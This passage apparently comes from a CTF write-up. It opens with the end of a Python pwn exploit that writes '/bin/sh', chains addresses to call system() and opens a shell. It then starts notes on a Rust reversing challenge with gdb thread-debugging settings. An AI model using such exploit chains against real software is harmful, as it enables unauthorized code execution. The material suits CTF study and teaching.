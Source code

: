 ```py
sl(payload)

paybyte(b"/bin/sh\0")
payload = payload.ljust(0x18,b"\0")
add64(writable-0x30)
add64(writable-0x30)
add64(writable-0x40)
add64(writable-0x40)
add64(0x0401315) #system() @ wakekko

sl(payload)

print(r())

shell()
```

## Concurrent Flag Printer
<primary-label ref="rev"/>

[](https://alpacahack.com/ctfs/seccon-13-finals-booth/challenges/concurrent-flag-printer)

* rust:cry:
* 4 threads launched in this challenge.
* 4 threads construct the string in parallel, break at `std::thread::Builder::spawn_unchecked::hc4b5f0da48ddb8b5` using gdb with following script.

```sh
set mi-async on
set non-stop on
```

![Screenshot_20250303_230516.png](Screenshot_20250303_230516.png)

